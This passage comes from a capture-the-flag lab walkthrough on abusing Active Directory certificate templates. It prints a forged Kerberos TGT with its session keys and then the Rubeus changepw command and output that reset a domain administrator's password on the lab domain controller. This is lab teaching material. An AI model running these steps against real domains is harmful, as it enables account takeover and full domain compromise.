 ```
             f29XrPzc+UODunO2Qv8JM5NAE3L6ryHp/DdgTaXGBRccgQBeQERNz6wxkdVK6SB7juOjU5JoZ5ZfmTuO
             hQ5hnboH1GvMy4+zeU2P7foWEJE76i9uZMbjUilbWRERYUL/ZjjXQBVWBaxoAdFIoawAzSXUZniNavnS
             n22qqgbd79Zj+lRavAb7Wlk5Gul4G6LMkh2MIJ4JOnrV0JV1yOhoqZ5V6KX/2r7ecyrVZIf2Qf0+ci9G
             vboJiLvWKgXkx7VaKbcLhO743BNYyq57nPNvWhVt3jbFmEq4nTdNou6hQHG4O5hVMhBKGgTwYz3yFPOP
             iuxroniQawSUJbmwObxVeoculPhxEJ69MSgKROTXrKrQAJ84D5QJHQYZus6w+LtodZn1//ZLhgILeFsY
             5K6d4ot2eqEr/A4Vu+wFjGjw87FTvHVcf8HdtGhqkawtPOrzo4HxMIHuoAMCAQCigeYEgeN9geAwgd2g
             gdowgdcwgdSgKzApoAMCARKhIgQgQr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVWhERsPTFVO
             QVIuRVJVQ0EuQ09NohcwFaADAgEBoQ4wDBsKc3ZjLmdpdGxhYqMHAwUAQOEAAKURGA8yMDIyMDIwNjE3
             NTQ0NlqmERgPMjAyMjAyMDcwMzU0NDZapxEYDzIwMjIwMjEzMTc1NDQ2WqgRGw9MVU5BUi5FUlVDQS5D
             T02pJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD2x1bmFyLmVydWNhLmNvbQ=
       
         ServiceName              :  krbtgt/lunar.eruca.com
         ServiceRealm             :  LUNAR.ERUCA.COM
         UserName                 :  svc.gitlab
         UserRealm                :  LUNAR.ERUCA.COM
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

We now need to use this TGT to gain access. This can be done using your favorite hacking framework like metasploit, cobaltstrike, or covenant. However, for the purpose of this walkthrough, we will be using Rubeus again. We will use the ticket to alter the password of one of the domain administrators. This will allow us to use the DA’s credentials to log into the Domain Controller as administrator to recover the final flag. Open the **Active Directory Users and Computers** application and explore the domain structure, looking for the DAs:

![](2025-05-31-ad-certificate-templates-23.png)

Select one of the DAs to target and use the following command to alter their password:

```
Rubeus.exe changepw /ticket:<path to ticket file> /new:<new password for user> /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\<username of targeted DA>
```

Once the command executes, it should alter the password for the associated DA account:

Resetting a user’s password

```
C:\THMTools> .\Rubeus.exe changepw /ticket:svc.gitlab.kirbi /new:Tryhackme! /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\da-nread
           ______        _
          (_____ \      \| \|
           _____) )_   _\| \|__  _____ _   _  ___
          \|  __  /\| \| \| \|  _ \\| ___ \| \| \| \|/___)
          \| \|  \ \\| \|_\| \| \|_) ) ____\| \|_\| \|___ \|
          \|_\|   \|_\|____/\|____/\|_____)____/(___/
        
          v2.0.0
        
        [*] Action: Reset User Password (AoratoPw)
        
        [*] Using domain controller: LUNDC.lunar.eruca.com (10.10.69.219)
        [*] Resetting password for target user: lunar.eruca.com\da-nread
        [*] New password value: Tryhackme!
        [*] Building AP-REQ for the MS Kpassword request
        [*] Building Authenticator with encryption key type: aes256_cts_hmac_sha1
        [*] base64(session subkey): UP+L2OgmJ281TkkXYNKR0ahLJni1fIk/XMBFwwNTP7Q=
```